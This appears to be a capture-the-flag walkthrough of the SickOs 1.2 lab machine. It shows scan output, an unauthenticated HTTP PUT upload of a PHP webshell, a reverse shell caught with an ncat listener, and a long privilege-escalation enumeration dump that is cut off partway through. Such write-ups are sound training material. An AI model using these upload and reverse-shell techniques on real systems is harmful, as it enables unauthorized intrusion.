


SickOs: 1.2
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=enp0s3 -project=VulnOsV2 -subnet=true <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to scan your subnet. [+] Alive hosts in 192.168.43.0/24 are: 192.168.43.1 192.168.43.2 192.168.43.3 192.168.43.4 [+] Directory created at: /HaGashash_Projects/SickOs1.2/192.168.43.1. [!] Starting to scan 192.168.43.1 for TCP interesting stuff. [!] Starting to scan 192.168.43.1 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SickOs1.2/192.168.43.2. [!] Starting to scan 192.168.43.2 for TCP interesting stuff. [!] Starting to scan 192.168.43.2 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SickOs1.2/192.168.43.3. [!] Starting to scan 192.168.43.3 for TCP interesting stuff. [!] Starting to scan 192.168.43.3 for UDP interesting stuff. [+] Directory created at: /HaGashash_Projects/SickOs1.2/192.168.43.4. [!] Starting to scan 192.168.43.4 for UDP interesting stuff. [!] Starting to scan 192.168.43.4 for TCP interesting stuff. [+] Nmap's TCP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.4 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.1 is completed successfully. [+] Nmap's TCP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.3 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.2 is completed successfully. [+] Nmap's UDP script scanning on 192.168.43.1 is completed successfully. [+] Summary file for 192.168.43.4 is ready. [+] Summary file for 192.168.43.3 is ready. [+] Summary file for 192.168.43.2 is ready. [+] Summary file for 192.168.43.1 is ready. [gandosha@GandoPC 192.168.43.3]$ cat nmap_TCP_scan_output # Nmap 7.70 scan initiated Sat Oct 27 15:16:17 2018 as: nmap -sS -p- -A -T4 -Pn -vv -oN /HaGashash_Projects/SickOs1.2/192.168.43.3/nmap_TCP_scan_output 192.168.43.3 mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers Nmap scan report for 192.168.43.3 Host is up, received arp-response (0.0048s latency). Scanned at 2018-10-27 15:16:21 IDT for 100s Not shown: 65533 filtered ports Reason: 65533 no-responses PORT STATE SERVICE REASON VERSION 22/tcp open ssh syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA) | ssh-dss AAAAB3NzaC1kc3MAAACBAOIxfyihj8eGscDruPXEPCuyC6uhrQpv12KkA+pHxY0vIhniTjuWkhcLyUYVgbEJ62vZp7pc1K18sdTj680hZfYdxjljdo0RjtR9HS8QRMaaqwbDqDspWQt2Nm14oC3I85bW01GZUolXcixMpwzzm0MDznX7fY8W6D9B5YdQ4Pc3AAAAFQCCt8GUWe+/dbKoaAjHzlVEcFgUhQAAAIAFmq533sTKwbTcmyR4lst2maXrP+RWzyHjbTlRkBlEBeEw/R53tj5VW1qNhCnw/zTMYcZZhrQLyMKr7Y5ePKEKivgERmVqBRtSZbimrX/Vu5FnrIHSivq1jQ1cdy+OdroAYzOuH3ctIWpSGqbYhsAXAJsXc5f42DciYUaSG7f07gAAAIAOcLVsR8gSH4jPF57g44KGHq9AWj4VWaD0z7gLvJFhmFeEu233kZ1L6LKkkSS2EHRlAaiH8MmPbVqT2Qd1MVldmzalhqWverwtLJvWhRGL/wLf/DNYASywt7nEBSmKQGnqUt6Cr98FAgoGljcUQ4plwJBEpLRL0T10ljWqi9vYBQ== | 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA) | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDP0MUsoqZO/V9YvveabWAbUKg75bvm+raBx3ocLawuv+tI8ROpQiffcGRRXfhrXgmq8GjD2VKQh6OlIHHCZxHRnqCOLlxaCszp+sAS5gTFGx2K+fsUsIQmsBenxOmojiNCowJihpbeW32g5BHbcdSEkRkJoIcqj2YFpxlp2Sj8eBFVFtmTxUkbgCfLVTD3sn2fXe6Z4rGq/liyUthaWe0/GvIJTTgOFm3gj89h2AjrziXtopePi0qrZPvfBJGQBPY5HerX3cuROLGX9hc0jDuuV9icguimRd51MSwferYYkXRVjscBAqO941aIFrKgpIpwl806cFbMh48puWtsLtn3 | 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA) |_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBClk4i5WwxKsaozl2squH3rj+k3ZuyBxTW3uULT4gLTVLmhmg+QqkZQJ9xHmAjrRoBKhwWL+l3sNJeSgsJ9UEv0= 80/tcp open http syn-ack ttl 64 lighttpd 1.4.28 | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-server-header: lighttpd/1.4.28 |_http-title: Site doesn't have a title (text/html). MAC Address: 08:00:27:B6:DF:64 (Oracle VirtualBox virtual NIC) Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Device type: general purpose Running: Linux 3.X|4.X OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4 TCP/IP fingerprint: OS:SCAN(V=7.70%E=4%D=10/27%OT=22%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=080027%TM=5BD OS:45779%P=x86_64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%TS=8)OPS( OS:O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11 OS:NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( OS:R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S=O%A=S+%F= OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)U1 OS:(R=N)IE(R=N) Uptime guess: 0.001 days (since Sat Oct 27 15:16:59 2018) Network Distance: 1 hop TCP Sequence Prediction: Difficulty=261 (Good luck!) IP ID Sequence Generation: All zeros Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE HOP RTT ADDRESS 1 4.76 ms 192.168.43.3 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sat Oct 27 15:18:01 2018 -- 1 IP address (1 host up) scanned in 107.18 seconds
Port 80 check:
Attempt to access via http port 80:
Spidering and fuzzing revealed another path on the web server:
===================================================== Gobuster v2.0.1 OJ Reeves (@TheColonial) ===================================================== [+] Mode : dir [+] Url/Domain : http://192.168.43.3/ [+] Threads : 10 [+] Wordlist : /home/gandosha/Desktop/SecLists/Discovery/Web-Content/raft-large.txt [+] Status codes : 200,204,301,302,307,403 [+] Timeout : 10s ===================================================== 2018/10/27 15:27:48 Starting gobuster ===================================================== /test (Status: 301) /~ (Status: 403) /~sys~ (Status: 403) /live~ (Status: 403) /~stats~ (Status: 403) /index.php (Status: 200) /. (Status: 200) /extension.inc (Status: 403) /.inc (Status: 403) /adovbs.inc (Status: 403) /var.inc (Status: 403) /~.inc (Status: 403) /footer.inc (Status: 403) /header.inc (Status: 403) /geoip.inc (Status: 403) /common.inc (Status: 403) /config.inc (Status: 403) /connect.inc (Status: 403) /license.inc (Status: 403) /menu.inc (Status: 403) /validation_user.inc (Status: 403) /weather.inc (Status: 403) /install-utils.inc (Status: 403) /test.inc (Status: 403) /_footer.inc (Status: 403) /amengaming.inc (Status: 403) /auth.inc (Status: 403) /banners.inc (Status: 403) /biglogo.inc (Status: 403) /bottommenu.inc (Status: 403) /c_functions.inc (Status: 403) /casing.inc (Status: 403) /countcomments.inc (Status: 403) /db.inc (Status: 403) /excel.inc (Status: 403) /extensions.inc (Status: 403) /findadvertisers.inc (Status: 403) /findcasinos.inc (Status: 403) /findtenants.inc (Status: 403) /geoipcity.inc (Status: 403) /getdetails.inc (Status: 403) /getname.inc (Status: 403) /getheading.inc (Status: 403) /gmkt.inc (Status: 403) /getstate.inc (Status: 403) /index.php~ (Status: 403) /headerrow.inc (Status: 403) /init.inc (Status: 403) /leftAd.inc (Status: 403) /links.inc (Status: 403) /logit.inc (Status: 403) /mail.inc (Status: 403) /news.inc (Status: 403) /quikblogs.inc (Status: 403) /quiklist.inc (Status: 403) /quiklistold.inc (Status: 403) /quikliststatic.inc (Status: 403) /ratertable.inc (Status: 403) /rightad.inc (Status: 403) /sc_check_logon.inc (Status: 403) /setup.inc (Status: 403) /showbriefs.inc (Status: 403) /showcomments.inc (Status: 403) /sidebar.inc (Status: 403) /tendetails.inc (Status: 403) /top.inc (Status: 403) /upload.inc (Status: 403) /uscfstats.inc (Status: 403) /test (Status: 301) /.inc (Status: 403) /. (Status: 200) /.html.inc (Status: 403) /.php.inc (Status: 403) ===================================================== 2018/10/27 15:39:33 Finished =====================================================
Checking /test directory for HTTP OPTIONS exposed an option to upload files without any authentication:
I uploaded a webshell in PHP and I invoked a python reverse shell back to my attacking machine:
Using HTTP PUT, I uploaded linuxprivchecker.py for further enumeration:
Privilege escalation:
Linuxprivchecker.py output:
[gandosha@GandoPC ~]$ sudo ncat -lvnp 443
[sudo] password for gandosha:
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.43.3.
Ncat: Connection from 192.168.43.3:59889.
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/test$ ls -aul
ls -aul
total 40
drwxr-xr-x 2 www-data www-data 4096 Oct 27 12:52 .
drwxr-xr-x 3 root root 4096 Oct 27 08:13 ..
-rw-r--r-- 1 www-data www-data 38 Oct 27 09:57 Gandoshell.php
-rw-r--r-- 1 www-data www-data 25676 Oct 27 12:51 linuxprivchecker.py
www-data@ubuntu:/var/www/test$ chmod +x linuxprivchecker.py
chmod +x linuxprivchecker.py
www-data@ubuntu:/var/www/test$ python ./linuxprivchecker.py
python ./linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================
[*] GETTING BASIC SYSTEM INFO...
[+] Kernel
Linux version 3.11.0-15-generic (buildd@akateko) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu5) ) #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014
[+] Hostname
ubuntu
[+] Operating System
.oooooo..o o8o oooo .oooooo. .o .oooo.
d8P' `Y8 `"' `888 d8P' `Y8b o888 .dP""Y88b
Y88bo. oooo .ooooo. 888 oooo 888 888 .oooo.o 888 ]8P'
`"Y8888o. `888 d88' `"Y8 888 .8P' 888 888 d88( "8 888 .d8P'
`"Y88b 888 888 888888. 888 888 `"Y88b. 888 .dP'
oo .d8P 888 888 .o8 888 `88b. `88b d88' o. )88b 888 .o. .oP .o
8""88888P' o888o `Y8bod8P' o888o o888o `Y8bood8P' 8""888P' o888o Y8P 8888888888
By @D4rk36
[*] GETTING NETWORKING INFO...
[+] Interfaces
eth0 Link encap:Ethernet HWaddr 08:00:27:b6:df:64
inet addr:192.168.43.3 Bcast:192.168.43.255 Mask:255.255.255.0
inet6 addr: fe80::a00:27ff:feb6:df64/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:673561 errors:127 dropped:0 overruns:0 frame:0
TX packets:278764 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:66179111 (66.1 MB) TX bytes:123993206 (123.9 MB)
Interrupt:9 Base address:0xd000
lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 Metric:1
RX packets:16 errors:0 dropped:0 overruns:0 frame:0
TX packets:16 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:1184 (1.1 KB) TX bytes:1184 (1.1 KB)
[+] Netstat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 192.168.43.3:59891 192.168.43.4:443 ESTABLISHED 8719/python
tcp 0 1 192.168.43.3:52926 192.168.43.4:80 SYN_SENT 30633/wget
tcp 1 0 192.168.43.3:80 192.168.43.4:58356 CLOSE_WAIT -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
[+] Route
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
192.168.43.0 * 255.255.255.0 U 0 0 0 eth0
[*] GETTING FILESYSTEM INFO...
[+] Mount results
/dev/sda1 on / type ext4 (rw,errors=remount-ro)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
none on /sys/fs/fuse/connections type fusectl (rw)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
[+] fstab entries
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
#
proc /proc proc nodev,noexec,nosuid 0 0
# / was on /dev/sda1 during installation
UUID=ea8f23df-c728-4a61-a56b-995e83cb7626 / ext4 errors=remount-ro 0 1
# swap was on /dev/sda5 during installation
UUID=d6fef73f-2945-400d-a86f-c3eb7f2aafc7 none swap sw 0 0
/dev/fd0 /media/floppy0 auto rw,user,noauto,exec,utf8 0 0
[+] Scheduled cron jobs
-rw-r--r-- 1 root root 722 Jun 19 2012 /etc/crontab
/etc/cron.daily:
total 72
drwxr-xr-x 2 root root 4096 Apr 12 2016 .
drwxr-xr-x 84 root root 4096 Oct 27 08:12 ..
-rw-r--r-- 1 root root 102 Jun 19 2012 .placeholder
-rwxr-xr-x 1 root root 15399 Nov 15 2013 apt
-rwxr-xr-x 1 root root 314 Apr 18 2013 aptitude
-rwxr-xr-x 1 root root 502 Mar 31 2012 bsdmainutils
-rwxr-xr-x 1 root root 2032 Jun 4 2014 chkrootkit
-rwxr-xr-x 1 root root 256 Oct 14 2013 dpkg
-rwxr-xr-x 1 root root 338 Dec 20 2011 lighttpd
-rwxr-xr-x 1 root root 372 Oct 4 2011 logrotate
-rwxr-xr-x 1 root root 1365 Dec 28 2012 man-db
-rwxr-xr-x 1 root root 606 Aug 17 2011 mlocate
-rwxr-xr-x 1 root root 249 Sep 12 2012 passwd
-rwxr-xr-x 1 root root 2417 Jul 1 2011 popularity-contest
-rwxr-xr-x 1 root root 2947 Jun 19 2012 standard
/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Mar 30 2016 .
drwxr-xr-x 84 root root 4096 Oct 27 08:12 ..
-rw-r--r-- 1 root root 102 Jun 19 2012 .placeholder
/etc/cron.monthly:
total 12
drwxr-xr-x 2 root root 4096 Mar 30 2016 .
drwxr-xr-x 84 root root 4096 Oct 27 08:12 ..
-rw-r--r-- 1 root root 102 Jun 19 2012 .placeholder
/etc/cron.weekly:
total 20
drwxr-xr-x 2 root root 4096 Mar 30 2016 .
drwxr-xr-x 84 root root 4096 Oct 27 08:12 ..
-rw-r--r-- 1 root root 102 Jun 19 2012 .placeholder
-rwxr-xr-x 1 root root 730 Sep 13 2013 apt-xapian-index
-rwxr-xr-x 1 root root 907 Dec 28 2012 man-db
[+] Writable cron dirs
[*] ENUMERATING USER AND ENVIRONMENTAL INFO...
[+] Logged in User Activity
12:52:45 up 4:40, 0 users, load average: 0.00, 0.01, 0.05
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
[+] Super Users Found:
root
[+] Environment
SHLVL=1
_=/usr/bin/python
PHP_FCGI_MAX_REQUESTS=10000
PATH=/sbin:/bin:/usr/sbin:/usr/bin
PHP_FCGI_CHILDREN=4
PWD=/var/www/test
[+] Root and current user history (depends on privs)
[+] Sudoers (privileged)
[+] All users
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
john:x:1000:1000:Ubuntu 12.x,,,:/home/john:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
[+] Current User
www-data
[+] Current User ID
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] ENUMERATING FILE AND DIRECTORY PERMISSIONS/CONTENTS...
[+] World Writeable Directories for User/Group 'Root'
drwxrwxrwt 2 root root 4096 Oct 27 12:52 /tmp
drwxrwxrwt 2 root root 40 Oct 27 08:12 /run/shm
drwxrwxrwt 3 root root 60 Oct 27 08:12 /run/lock
drwxrwxrwt 2 root root 4096 Jan 10 2014 /var/tmp
drwx-wx-wt 2 root root 4096 Oct 27 2015 /var/lib/php5
[+] World Writeable Directories for Users other than Root
[+] World Writable Files
-rw-rw-rw- 1 root root 0 Oct 27 05:12 /sys/kernel/security/apparmor/.access
[+] Checking if root's home folder is accessible
[+] SUID/SGID Files and Directories
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/ca-certificates
drwxrwsr-x 6 root staff 4096 Mar 30 2016 /usr/local/share/xml
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/xml/entities
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/xml/schema
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/xml/misc
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/xml/declaration
drwxrwsr-x 7 root staff 4096 Mar 30 2016 /usr/local/share/sgml
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/sgml/entities
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/sgml/stylesheet
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/sgml/misc
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/sgml/dtd
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/share/sgml/declaration
drwxrwsr-x 4 root staff 4096 Mar 30 2016 /usr/local/lib/python2.7
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/lib/python2.7/site-packages
drwxrwsr-x 2 root staff 4096 Mar 30 2016 /usr/local/lib/python2.7/dist-packages
-rwsr-xr-- 1 root dip 273272 Feb 4 2011 /usr/sbin/pppd
-rwsr-sr-x 1 libuuid libuuid 17976 Mar 29 2012 /usr/sbin/uuidd
-rwsr-xr-x 1 root root 5564 Dec 13 2011 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 248056 Jan 13 2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 9728 Feb 16 2016 /usr/lib/pt_chown
-r-sr-xr-x 1 root root 9532 Mar 30 2016 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Mar 30 2016 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus 316824 Jun 13 2013 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 2 root root 69708 Feb 27 2013 /usr/bin/sudoedit
-rwxr-sr-x 1 root ssh 128416 Jan 13 2016 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 14012 Nov 8 2011 /usr/bin/traceroute6.iputils
-rwxr-sr-x 1 root crontab 34776 Jun 19 2012 /usr/bin/crontab
-rwsr-xr-x 2 root root 69708 Feb 27 2013 /usr/bin/sudo
-rwsr-xr-x 1 root root 31748 Sep 12 2012 /usr/bin/chsh
-rwsr-xr-x 1 root root 41284 Sep 12 2012 /usr/bin/passwd
-rwsr-xr-x 1 root root 40292 Sep 12 2012 /usr/bin/chfn
-rwxr-sr-x 1 root tty 9728 Mar 31 2012 /usr/bin/bsd-write
-rwxr-sr-x 3 root mail 9684 Oct 18 2011 /usr/bin/mail-lock
-rwxr-sr-x 1 root mail 13892 Jun 27 2013 /usr/bin/dotlockfile
-rwxr-sr-x 3 root mail 9684 Oct 18 2011 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 9684 Oct 18 2011 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root shadow 18120 Sep 12 2012 /usr/bin/expiry
-rwsr-sr-x 1 daemon daemon 42800 Oct 25 2011 /usr/bin/at
-rwsr-xr-x 1 root root 56208 Jul 28 2011 /usr/bin/mtr
-rwxr-sr-x 1 root shadow 45284 Sep 12 2012 /usr/bin/chage
-rwsr-xr-x 1 root root 57956 Sep 12 2012 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 30896 Sep 12 2012 /usr/bin/newgrp
-rwxr-sr-x 1 root mlocate 34432 Aug 17 2011 /usr/bin/mlocate
-rwxr-sr-x 1 root tty 18036 Mar 29 2012 /usr/bin/wall
-rwxr-sr-x 1 root shadow 30364 Feb 8 2012 /sbin/unix_chkpwd
drwxrwsr-x 2 root staff 4096 Jan 10 2014 /var/local
drwxr-sr-x 31 man root 4096 Apr 12 2016 /var/cache/man
drwxr-sr-x 6 man root 4096 Apr 12 2016 /var/cache/man/de
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/de/cat3
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/de/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/de/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/de/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/id
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/id/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/id/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/id/cat5
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat3
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat8
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/nl
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/nl/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/nl/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/nl/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/tr
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/tr/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/tr/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/tr/cat5
drwxr-sr-x 4 man root 4096 Apr 12 2016 /var/cache/man/fi
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/fi/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/fi/cat1
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/es
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/es/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/es/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/es/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/ko
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ko/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ko/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ko/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/ja
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ja/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ja/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ja/cat5
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat6
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat1
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/zh_TW
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_TW/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_TW/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_TW/cat5
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat2
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/cs
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cs/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cs/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cs/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/ru
